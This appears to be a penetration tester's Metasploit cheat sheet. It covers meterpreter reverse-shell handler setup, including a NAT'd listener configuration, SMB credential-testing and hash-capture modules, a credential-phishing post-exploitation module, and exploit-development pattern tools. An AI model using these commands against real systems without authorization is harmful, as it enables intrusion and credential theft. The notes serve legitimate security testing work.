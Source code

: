 Metasploit
========================

## Reverse shell with meterpreter using shellter

    msfconsole
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set autorunscript post/windows/manage/migrate
    

https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/

scanner/http/enum_wayback (Cached URLs)
scanner/http/dir_scanner (URLs attempts)
scanner/http/files_dir (files unreferenced in application)

Windows exploitation modules
For admin local accounts

	auxiliary/scanner/smb/smb_login		(testing for credentials in windows) This works!!!
	auxiliary/server/capture/smb		(Capturing smb hashes) This works!!!
	auxiliary/admin/smb/psexec_command	(psexec command utility msfconole [not working])

This module get windows admin credentials like phishing. It is very important to note that this module works with a session already opened:
	use/gather/phish_windows-credentials
	

Module to generate patterns for exploit development

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb

Module to find the offset of the pattern

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb	


## Reverse shell in nat'ed environments:

    set ReverseListenerBindAddress <HOST_IP>
    set ReverseListenerBindPort <HOST_PORT>
    set LHOST <IP_ADDR_who_makes_nat>
    set LPORT <PORT_who_makes_nat>

Example:
  
    set LHOST 172.21.85.241
    set LPORT 4445
    set ReverseListenerBindAddress 192.168.120.130
    set ReverseListenerBindPort 4444    

## ms17-010 in 32 bits

    dpkg --add-architecture i386
    

## commands


command line

msfconsole -q -x "search ms17-010;quit"

msdb init  (Initial configuration for metasploit database)
Database is set properly

If any problems with the connection, use the file generated with the command above:

└─$ sudo msfdb init
[sudo] password for acosta: 
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
[+] Creating databases 'msf_test'
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema


    db_connect -y /usr/share/metasploit-framework/config/database.yml

msfconsole -p /opt/scripts/ruby/pentest.rb (-p load a plugin)

or

load /path/to/-plugin

db_import /opt/customers/apdata/2_Scanning/apdata_scan_nessus_zcbt01.nessus


Managing vulnerabilities with pentest.rb

vulns

vuln_exploit (load a exploit for each vulnerability)

vuln_exploit -m (match vulnerabilities with exploits)


Working with workspaces

workspace -a apdata (add a new workspace)

workspace -d default (remove workspace)

workspace -r apdata apdata2 (rename workspace)

services (list open ports)

services -p 22 -R (set RHOSTS of an auxiliary for example)



Another options for searching exploits:

pentest.rb plugin

https://sploitus.com

searchsploit -u (for update)